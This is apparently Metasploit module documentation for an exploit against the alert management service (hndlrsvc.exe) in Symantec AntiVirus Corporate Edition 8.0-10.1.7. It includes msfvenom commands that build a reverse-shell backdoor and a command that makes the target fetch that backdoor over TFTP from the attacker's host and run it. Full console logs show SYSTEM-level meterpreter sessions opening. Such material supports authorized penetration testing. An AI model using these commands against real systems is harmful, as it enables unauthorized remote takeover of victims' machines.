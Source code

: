 ## Vulnerable Application

  This module exploits Symantec System Center's alert management system (hndlrsvc.exe) with an arbitrary command execution.  The payload is uploaded via TFTP
  and then executed on the system.
  This is part of Symantec AntiVirus Corporate Edition 8.0-10.1.7

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/windows/antivirus/ams_hndlrsvc`
  4. Do: `set rhost`
  5. Do: `exploit`
  6. You should get a shell.

## Options

### CMD

  Optional command line to run instead of attempting to directly inject a payload

### RPORT

  The port the service is running on.  Default is 38292.

## Scenarios

### Manual Upload and Execute

If the module doesn't work for a shell, it's possible to run the CMD twice to emulate the steps the module takes.

1. start atftpd: `atftpd --daemon --port=69 /tftpboot/`
2. create payload: `msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.1.1.1 lport=4444 -f exe -o /tftpboot/backdoor.exe`
3. start metasploit
4. start a multihandler
5. load the module: `use exploit/windows/antivirus/ams_hndlrsvc`
6. use ams: `set CMD 'tftp -i 1.1.1.1 GET backdoor.exe'`
7. run
8. use ams: `set cmd 'backdoor.exe'`
9. run

  ```
root@kali:~/metasploit-framework# ./msfconsole 

msf > ifconfig
[*] exec: ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 1.1.1.1  netmask 255.255.255.0  broadcast 192.168.3.255
        inet6 fe80::20c:29ff:fef9:62a1  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:f9:1f:a1  txqueuelen 1000  (Ethernet)
        RX packets 70933  bytes 39287343 (37.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 11688  bytes 3788654 (3.6 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf > use exploit/multi/handler 
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(handler) > set lport 4444
lport => 4444
msf exploit(handler) > exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Starting the payload handler...
msf exploit(handler) > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 9999
lport => 9999
msf exploit(ams_hndlrsvc) > set cmd 'tftp -i 1.1.1.1 GET backdoor.exe'
CMD => tftp -i 1.1.1.1 GET backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'tftp -i 1.1.1.1 GET backdoor.exe'
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > set cmd 'backdoor.exe'
cmd => backdoor.exe
msf exploit(ams_hndlrsvc) > run

[*] Started reverse TCP handler on 1.1.1.1:9999 
[*] 2.2.2.2:38292 - Executing command 'backdoor.exe'
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 2.2.2.2:1038) at 2016-09-30 11:59:13 -0400
[*] Exploit completed, but no session was created.
msf exploit(ams_hndlrsvc) > sessions -l

Active sessions
===============

  Id  Type                   Information                 Connection
  --  ----                   -----------                 ----------
  1   meterpreter x86/win32  NT AUTHORITY\SYSTEM @ WEBB  1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)

msf exploit(ams_hndlrsvc) > sessions -v

Active sessions
===============

  Session ID: 1
        Type: meterpreter x86/win32
        Info: NT AUTHORITY\SYSTEM @ WEBB
      Tunnel: 1.1.1.1:4444 -> 2.2.2.2:1038 (2.2.2.2)
         Via: exploit/multi/handler
        UUID: 0a85ec1678bc8465/x86=1/windows=1/2016-09-30T15:59:12Z
   MachineID: 8b2889ec93a961f2cc3f2db4620def57
     CheckIn: 28s ago @ 2016-09-30 12:00:15 -0400
  Registered: No



msf exploit(ams_hndlrsvc) > 

  ```
  
### Using Standard Options
  
  ```
msf > use exploit/windows/antivirus/ams_hndlrsvc 
msf exploit(ams_hndlrsvc) > set rhost 2.2.2.2
rhost => 2.2.2.2
msf exploit(ams_hndlrsvc) > set lport 4445
lport => 4445
msf exploit(ams_hndlrsvc) > show options

Module options (exploit/windows/antivirus/ams_hndlrsvc):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   CMD                     no        Execute this command instead of using command stager
   LHOST  1.1.1.1     no        The listen IP address from where the victim downloads the payload
   RHOST  2.2.2.2   yes       The target address
   RPORT  38292            yes       The target port


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     1.1.1.1     yes       The listen address
   LPORT     4445             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Universal


msf exploit(ams_hndlrsvc) > exploit

[*] Started reverse TCP handler on 1.1.1.1:4445 
[*] 2.2.2.2:38292 - Sending request to 2.2.2.2:38292
[+] 2.2.2.2:38292 - tftp -i 1.1.1.1 GET OQTAVJBVWZH.exe
[*] 2.2.2.2:38292 - Attempting to execute the payload...
[+] 2.2.2.2:38292 - OQTAVJBVWZH.exe
[*] Sending stage (957999 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4445 -> 2.2.2.2:1041) at 2016-09-30 12:13:18 -0400

meterpreter > 

  ```
